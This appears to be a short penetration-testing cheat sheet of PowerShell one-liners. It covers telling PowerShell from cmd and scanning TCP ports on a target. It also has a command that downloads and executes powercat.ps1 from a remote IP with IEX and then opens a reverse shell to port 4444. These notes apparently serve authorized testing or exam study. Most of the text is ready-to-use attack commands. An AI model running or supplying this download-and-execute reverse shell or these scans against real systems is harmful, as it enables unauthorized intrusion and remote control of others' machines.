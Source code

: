 
determine if command line is PowerShell or cmd:

```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

download files from remote server with PowerShell:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

`Test-NetConnection -Port <port> <target_IP>` - Power shell command that can be used to run a port scan from a windows machine. This command will check if the target responds too ICMP and whether a specified TCP port on the target is open. The result of `TcpTestSucceeded` indicated whether the port is open or not.

`1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).connect("TARGET_IP", $_)) "TCP port $_ is open"} 2>$null` - This is a power shell one-liner that will scan the first 1024 ports of our target specified.

